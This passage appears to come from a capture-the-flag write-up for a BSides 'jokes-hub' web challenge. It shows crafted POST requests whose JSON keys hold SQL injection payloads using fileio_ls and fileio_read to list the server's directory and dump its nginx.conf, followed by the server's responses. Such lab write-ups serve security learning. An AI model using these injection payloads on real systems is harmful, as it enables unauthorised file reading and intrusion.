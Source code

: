 ```
POST /jokes HTTP/1.1
Host: jokes-hub-1.bsides.shellmates.club
Content-Length: 55
...
Accept-Language: en-US,en;q=0.9
Connection: close

{"name from fileio_ls('..') LIMIT 200 OFFSET 3;--":100}
```

```
HTTP/1.1 200 OK
server: nginx/1.22.0 (Ubuntu)
date: Sat, 06 May 2023 08:47:20 GMT
content-type: application/json
content-length: 27
connection: close

{"result":"../nginx.conf"}
```

Let's read it's content :

```
POST /jokes HTTP/1.1
Host: jokes-hub-1.bsides.shellmates.club
...
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"CAST(fileio_read('../nginx.conf') AS TEXT ENCODING 'utf-8');--":100}
```

We get :

```
HTTP/1.1 200 OK
server: nginx/1.22.0 (Ubuntu)
date: Sat, 06 May 2023 08:49:07 GMT
content-type: application/json
content-length: 908
connection: close

{"result":"error_log /tmp/error.log;\npid       /tmp/nginx.pid;\n\nevents {\n}\n\nhttp {\n  upstream flask {\n      # /ctf/app/app.py\n      server unix:/tmp/app.sock;\n  }\n\n    upstream flagger {\n      # /ctf/flagger/flagger.py\n      server unix:/tmp/flagger.sock;\n  }\n\n    map $http_user_agent $redirect {\n    default flask;\n    \"flagger-user\" flagger;\n  }\n\n  server {\n    listen       8000;\n    client_max_body_size 10m;\n\n    access_log /tmp/nginx_host.access.log;\n    client_body_temp_path /tmp/client_body;\n    fastcgi_temp_path /tmp/fastcgi_temp;\n    proxy_temp_path /tmp/proxy_temp;\n    scgi_temp_path /tmp/scgi_temp;\n    uwsgi_temp_path /tmp/uwsgi_temp;\n\n\n    location / {\n\tinclude /etc/nginx/uwsgi_params;\n    if ($redirect = \"flagger\") {\n        uwsgi_pass flagger;\n      }\n\tuwsgi_pass flask;\n    }\n\n    location = /alive {\n\treturn 200;\n    }\n\n  }\n}\n"}
```
